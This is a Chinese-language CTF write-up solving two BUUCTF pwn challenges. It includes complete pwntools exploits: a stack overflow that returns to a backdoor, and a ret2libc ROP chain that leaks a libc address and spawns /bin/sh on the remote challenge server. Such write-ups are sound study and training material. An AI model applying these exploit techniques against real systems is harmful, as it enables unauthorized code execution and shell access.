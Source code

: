 # jarvisoj_level0

栈溢出：

![image-20220121135345420](BUUCTF-PWN-Writeup-6-10.assets/image-20220121135345420.png)

后门函数：

![image-20220121135354603](BUUCTF-PWN-Writeup-6-10.assets/image-20220121135354603.png)

gdb调一下看看偏移即可。：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = remote('node4.buuoj.cn',29609)
backdoor_addr = 0x400596
#0x7fffffffdd80
#0x7fffffffde28
payload = b'a'*(0xe08-0xd80)+p64(backdoor_addr)
p.sendline(payload)
#p = gdb.debug(["./vuln",payload],"break validate_passwd")
p.interactive()

```

# ciscn_2019_c_1

目前为止遇到的第一题构造比较麻烦的题目，思路还算清晰，就是ret2libc。

另外libcsearch经常连不上，贼恶心。

给的是加密的操作，很明显的栈溢出：

```c
int encrypt()
{
  size_t v0; // rbx
  char s[48]; // [rsp+0h] [rbp-50h] BYREF
  __int16 v3; // [rsp+30h] [rbp-20h]

  memset(s, 0, sizeof(s));
  v3 = 0;
  puts("Input your Plaintext to be encrypted");
  gets(s);
  while ( 1 )
  {
    v0 = (unsigned int)x;
    if ( v0 >= strlen(s) )
      break;
    if ( s[x] <= 96 || s[x] > 122 )
    {
      if ( s[x] <= 64 || s[x] > 90 )
      {
        if ( s[x] > 47 && s[x] <= 57 )
          s[x] ^= 0xFu;
      }
      else
      {
        s[x] ^= 0xEu;
      }
    }
    else
    {
      s[x] ^= 0xDu;
    }
    ++x;
  }
  puts("Ciphertext");
  return puts(s);
}
```

不过会被一层加密，只需要python发payload的时候先异或一次即可。

然后就是ret2libc了，无system和`/bin/sh`，利用puts函数来泄露got。

需要注意的是程序是64位的，和32位的不同：

- x86
  - **函数参数**在**函数返回地址**的上方
- x64
  - System V AMD64 ABI (Linux、FreeBSD、macOS 等采用) 中前六个整型或指针参数依次保存在 **RDI, RSI, RDX, RCX, R8 和 R9 寄存器**中，如果还有更多的参数的话才会保存在栈上。
  - 内存地址不能大于 0x00007FFFFFFFFFFF，**6 个字节长度**，否则会抛出异常。

所以puts函数的参数需要放到rdi里面，拿ROPgadget拿链子：

```shell
feng@ubuntu: ~/Desktop/buu$ ROPgadget --binary ciscn_2019_c_1  --only 'pop|ret'|grep 'rdi'
0x0000000000400c83 : pop rdi ; ret

```

然后就是正常的ret2libc的攻击了。需要注意栈平衡，再加个ret即可。

最需要注意的就是，第二次的payload不需要再加密了，因为：

```c
    v0 = (unsigned int)x;
    if ( v0 >= strlen(s) )
      break;
```

这个`x`是在bss段的全局变量，第一次的时候已经满足了if，第二次攻击的时候就会直接break了。

EXP：

```python
from pwn import *
from LibcSearcher import *
def enc(s):
    res = ''
    for x in range(len(s)):
        t = s[x]
        if ( t<=96 or t > 122 ):
            if ( t <= 64 or t > 90 ):
                if ( t > 47 and t <= 57 ):
                    res += chr(t^0xF)
                else:
                    res += chr(t)
            else :
                res += chr(t^0xE)
        else:
            res += chr(t^0xD)
    return res

context(log_level="debug",os="linux")
p = remote('node4.buuoj.cn',28582)

elf = ELF('./buu/ciscn_2019_c_1')
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
start = elf.symbols['_start']
payload1 = b'a'*0x58+p64(0x400c83)+p64(puts_got)+p64(puts_plt)+p64(start)
payload1 = enc(payload1)
p.sendline('1')
p.sendline(payload1)
p.recvuntil('Ciphertext\n')
p.recvuntil('\n')
puts_addr = ((u64(p.recvuntil('\n',drop=True).ljust(8,b'\x00'))))
libc = LibcSearcher('puts',puts_addr)
base = puts_addr - libc.dump('puts')
system_addr = base + libc.dump("system")
binsh_addr = base + libc.dump("str_bin_sh")
payload2 = b'a'*0x58+p64(0x4006b9)+p64(0x400c83)+p64(binsh_addr)+p64(system_addr)
p.sendline('1')
p.sendline(payload2)
p.interactive()


```

